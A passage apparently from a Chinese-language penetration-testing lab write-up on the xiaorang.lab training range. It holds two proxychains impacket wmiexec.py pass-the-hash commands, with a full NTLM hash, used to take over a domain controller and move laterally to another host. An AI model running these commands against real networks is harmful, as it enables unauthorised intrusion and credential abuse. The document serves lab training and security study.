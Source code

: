得到域控哈希

```bash
proxychains python3 '/root/Desktop/impacket-master12/examples/wmiexec.py'  xiaorang.lab/administrator@172.22.61.17 -hashes aad3b435b51404eeaad3b435b51404ee:e26a28fd9daa8a6a4d3c5adbbdcb0f53
```

拿下域控

[![](assets/1708919820-886338913b2d7457d435ddf922261327.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215025006-de8ddca0-cb69-1.png)

## 第一关

```bash
请测试暴露在公网上的 Web 应用的安全性，并尝试获取目标数据库权限。
```

我们已经拿下域控直接横向过去就好

```bash
proxychains python3 '/root/Desktop/impacket-master/examples/wmiexec.py'  xiaorang.lab/administrator@172.22.61.50 -hashes aad3b435b51404eeaad3b435b51404ee:e26a28fd9daa8a6a4d3c5adbbdcb0f53
```

[![](assets/1708919820-a18865f37ae307f1ea47e40dc2491b6f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215025011-e2036940-cb69-1.png)
